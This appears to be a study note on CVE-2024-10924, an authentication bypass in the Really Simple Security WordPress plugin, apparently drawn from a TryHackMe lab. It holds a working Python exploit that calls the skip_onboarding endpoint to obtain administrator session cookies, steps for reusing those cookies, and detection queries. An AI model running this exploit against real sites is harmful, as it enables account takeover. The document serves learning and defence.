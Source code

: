# CVE-2024-10924

[NIST - CVE-2024-10924](https://nvd.nist.gov/vuln/detail/CVE-2024-10924) States CVE-2024-10924 is *"The Really Simple Security (Free, Pro, and Pro Multisite) plugins for WordPress are vulnerable to authentication bypass in versions 9.0.0 to 9.1.1.1. This is due to improper user check error handling in the two-factor REST API actions with the 'check_login_and_get_user' function. This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, when the "Two-Factor Authentication" setting is enabled (disabled by default)."* More specifically the `skip_onboarding` feature manages the 2FA onboarding process for a user, redirecting after authentication passing parameters to `check_login_and_get_user`, `skip_onboarding` feature **does not validate the return value** of `check_login_and_get_user`.

This vulnerability is found in the source code:
`$insertParentDir/wp-content/plugins/really-simple-ssl/security/wordpress/two-fa`
in the `Rsssl_Two_Factor_On_Board_Api` class

THM Exploit PoC - cookie stealer
```python
import requests
import urllib.parse
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <user_id>")
    sys.exit(1)

user_id = sys.argv[1]

url = "http://vulnerablewp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),  # User ID from the argument
    "login_nonce": "invalid_nonce",  # Arbitrary value
    "redirect_to": "/wp-admin/"  # Target redirection
}

# Sending the POST request
response = requests.post(url, json=data)

# Checking the response
if response.status_code == 200:
    print("Request successful!\n")
    
    # Extracting cookies
    cookies = response.cookies.get_dict()
    count = 1

    for name, value in cookies.items():
        decoded_value = urllib.parse.unquote(value)  # Decode the URL-encoded cookie value
        print(f"Cookie {count}:")
        print(f"Cookie Name: {name}")
        print(f"Cookie Value: {decoded_value}\n")
        count += 1
else:
    print("Request failed!")
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
```

1. Get two cookie and their names
2. Make two cookies in Dev tools with their names 
3. go `/wp-admin`

#### Detection and Mitigation

- Check Weblogs for API Calls
	- `/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding`
- Analyse Authentication Logs where two-factor authentication is bypassed.

[[OpenSearch]] Query
```sql
method:POST AND path:"/reallysimplessl/v1/two_fa/skip_onboarding"
```


[Really Simple Security plugin officially patch](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/master/)


## References

[THM bypass really simple security](https://tryhackme.com/room/bypassreallysimplesecurity)
[NIST - CVE-2024-10924](https://nvd.nist.gov/vuln/detail/CVE-2024-10924) 
[Really Simple Security plugin officially patch](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/master/)